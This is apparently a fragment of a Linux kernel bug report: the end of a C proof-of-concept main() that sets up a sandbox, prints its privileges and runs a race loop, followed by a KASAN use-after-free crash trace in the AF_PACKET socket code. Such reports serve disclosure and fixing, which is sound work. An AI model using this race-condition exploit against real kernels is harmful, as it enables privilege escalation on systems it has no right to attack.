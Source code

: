 int main(int argc, char *argv[])
{
    setup_sandbox();
    system("id; capsh --print");
    loop_race();
    return 0;
}
``

## Crash report

```
[   73.703931] dev_remove_pack: ffff880067cee280 not found
[   73.717350] ==================================================================
[   73.726151] BUG: KASAN: use-after-free in dev_add_pack+0x1b1/0x1f0
[   73.729371] Write of size 8 at addr ffff880067d28870 by task poc/1175
[   73.732594]
[   73.733605] CPU: 3 PID: 1175 Comm: poc Not tainted 4.14.0-rc1+ #29
[   73.737714] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.10.1-1ubuntu1 04/01/2014
[   73.746433] Call Trace:
[   73.747985]  dump_stack+0x6c/0x9c
[   73.749410]  ? dev_add_pack+0x1b1/0x1f0
[   73.751622]  print_address_description+0x73/0x290
[   73.753646]  ? dev_add_pack+0x1b1/0x1f0
[   73.757343]  kasan_report+0x22b/0x340
[   73.758839]  __asan_report_store8_noabort+0x17/0x20
[   73.760617]  dev_add_pack+0x1b1/0x1f0
[   73.761994]  register_prot_hook.part.52+0x90/0xa0
[   73.763675]  packet_create+0x5e3/0x8c0
[   73.765072]  __sock_create+0x1d0/0x440
[   73.766030]  SyS_socket+0xef/0x1b0
[   73.766891]  ? move_addr_to_kernel+0x60/0x60
[   73.769137]  ? exit_to_usermode_loop+0x118/0x150
[   73.771668]  entry_SYSCALL_64_fastpath+0x13/0x94
[   73.773754] RIP: 0033:0x44d8a7
[   73.775130] RSP: 002b:00007ffc4e642818 EFLAGS: 00000217 ORIG_RAX: 0000000000000029
[   73.780503] RAX: ffffffffffffffda RBX: 00000000004002f8 RCX: 000000000044d8a7
[   73.785654] RDX: 0000000000000011 RSI: 0000000000000003 RDI: 0000000000000011
[   73.790358] RBP: 00007ffc4e642840 R08: 00000000000000ca R09: 00007f4192e6e9d0
[   73.793544] R10: 0000000000000000 R11: 0000000000000217 R12: 000000000040b410
[   73.795999] R13: 000000000040b4a0 R14: 0000000000000000 R15: 0000000000000000
[   73.798567]
[   73.799095] Allocated by task 1360:
[   73.800300]  save_stack_trace+0x16/0x20
[   73.802533]  save_stack+0x46/0xd0
[   73.803959]  kasan_kmalloc+0xad/0xe0
[   73.805833]  kmem_cache_alloc_trace+0xd7/0x190
[   73.808233]  packet_setsockopt+0x1d29/0x25c0
[   73.810226]  SyS_setsockopt+0x158/0x240
[   73.811957]  entry_SYSCALL_64_fastpath+0x13/0x94
[   73.814636]
[   73.815367] Freed by task 1175:
[   73.816935]  save_stack_trace+0x16/0x20
[   73.821621]  save_stack+0x46/0xd0
[   73.825576]  kasan_slab_free+0x72/0xc0
[   73.827477]  kfree+0x91/0x190
[   73.828523]  packet_release+0x700/0xbd0
[   73.830162]  sock_release+0x8d/0x1d0
[   73.831612]  sock_close+0x16/0x20
[   73.832906]  __fput+0x276/0x6d0
[   73.834730]  ____fput+0x15/0x20
[   73.835998]  task_work_run+0x121/0x190
[   73.837564]  exit_to_usermode_loop+0x131/0x150
```